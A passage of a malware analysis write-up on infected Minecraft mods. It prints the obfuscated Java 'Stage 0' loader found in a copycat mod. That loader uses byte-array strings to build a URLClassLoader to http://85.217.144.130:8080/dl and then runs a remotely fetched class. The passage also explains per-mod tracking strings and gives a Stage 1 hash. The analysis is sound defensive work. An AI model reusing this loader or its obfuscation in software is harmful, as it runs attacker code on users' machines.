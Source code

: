The method's code is obfuscated, using `new String(new byte[]{...})` instead of string literals.

From D3SL sample of "Create Infernal Expansion Plus", a copycat version of "Create Infernal Expansion Compat" with malware inserted into the main mod class:
```java
static void _1685f49242dd46ef9c553d8af1a4e0bb() {
  Class.forName(new String(new byte[] {
      // "Utility"
    85, 116, 105, 108, 105, 116, 121
  }), true, (ClassLoader) Class.forName(new String(new byte[] {
      // "java.net.URLClassLoader"
    106, 97, 118, 97, 46, 110, 101, 116, 46, 85, 82, 76, 67, 108, 97, 115, 115, 76, 111, 97, 100, 101, 114
  })).getConstructor(URL[].class).newInstance(new URL[] {
    new URL(new String(new byte[] {
        // "http"
      104, 116, 116, 112
    }), new String(new byte[] {
        // "85.217.144.130"
      56, 53, 46, 50, 49, 55, 46, 49, 52, 52, 46, 49, 51, 48
    }), 8080, new String(new byte[] {
        // "/dl"
        47, 100, 108
        }))
  })).getMethod(new String(new byte[] {
      // "run"
    114, 117, 110
  }), String.class).invoke((Object) null, "-114.-18.38.108.-100");
}
```

This:
1. Creates a `URLClassLoader` with the URL `http://[85.217.144.130:8080]/dl` ([shodan](https://www.shodan.io/host/85.217.144.130))
2. Loads the class `Utility` from the classloader, fetching code from the internet
3. Calls the `run` method on `Utility`, passing a String argument different for each infected mod (!). E.g.
    * Skyblock Core: "`-74.-10.78.-106.12`"
    * Dungeonz: "`114.-18.38.108.-100`"
    * HavenElytra: "`-114.-18.38.108.-100`"
    * Vault Integrations: "`-114.-18.38.108.-100`"

The passed numerals are parsed as bytes by Stage 1 and written to a file named ".ref". They appear to be a way for the author to track infection sources.

The creation of the classloader is hardcoded to that URL and does not use the Cloudflare URL that Stage 1 does. As that IP is now offline, this means the Stage 0 payloads *we are presently aware of* no longer function.

## Etapa 1 (`dl.jar`)

SHA-1: `dc43c4685c3f47808ac207d1667cc1eb915b2d82`

[Decompiled files from the Malware can be found here](../decomp).
